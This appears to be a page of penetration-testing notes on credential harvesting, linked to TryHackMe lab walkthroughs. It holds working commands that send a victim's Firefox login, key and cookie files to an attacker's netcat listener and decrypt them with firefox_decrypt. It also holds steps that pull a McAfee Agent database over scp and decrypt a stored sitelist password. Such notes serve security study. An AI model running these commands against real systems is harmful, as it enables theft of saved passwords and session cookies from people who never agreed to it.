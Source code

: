 # Credential Harvesting

## Browsers

### **Firefox**

**Common Areas**

| Location                                                   | Notes                                                                                                                                                      | Example    |
| ---------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------- |
| C:\Users\\$USER\AppData\Roaming\Mozilla\Firefox\Profiles\\ | <p>Depending on the version of Firefox there will be a folder with the files you need.<br><strong>ex:</strong> ljfn812a.default-release = Firefox 75.0</p> | Gatekeeper |
|                                                            |                                                                                                                                                            |            |
|                                                            |                                                                                                                                                            |            |
|                                                            |                                                                                                                                                            |            |

**Exploit**

{% embed url="https://github.com/unode/firefox_decrypt" %}

#### Decrypt Credentials

**Examples**

[gatekeeper.md](../../walkthroughs/tryhackme/gatekeeper.md "mention")

**Kali**&#x20;

We need to transfer the following files one by one.

```
nc -nlvp 1234 > logins.json
nc -nlvp 1234 > key4.db 
nc -nlvp 1234 > cert9.db 
nc -nlvp 1234 > cookies.sqlite
```

**Victim**

```
nc64.exe -nv $KALI 1234 < logins.json
nc64.exe -nv $KALI 1234 < key4.db 
nc64.exe -nv $KALI 1234 < cert9.db 
nc64.exe -nv $KALI 1234 < cookies.sqlite
```

This will show any passwords saved in Firefox

**Kali**&#x20;

```
git clone https://github.com/unode/firefox_decrypt.git
python3.9 firefox_decrypt.py ./
```





## Configuration Files

### McAfee Agent

**Examples**

[#configuration-files](../../walkthroughs/tryhackme/breaching-active-directory.md#configuration-files "mention")

**Victim**

```
cd C:\ProgramData\McAfee\Agent\DB
```

**Victim**

```
scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
Password: Password1@
```

**Kali**

```
sqlitebrowser ma.db
```

**Kali**

```
cp /root/Rooms/BreachingAD/task7/mcafeesitelistpwddecryption.zip .
unzip mcafeesitelistpwddecryption.zip
```

<figure><img src="../../.gitbook/assets/image (4) (1) (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
python2 mcafee-sitelist-pwd-decryption-master/mcafee_sitelist_pwd_decrypt.py  jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==
```

<figure><img src="../../.gitbook/assets/image (18) (7).png" alt=""><figcaption></figcaption></figure>

a

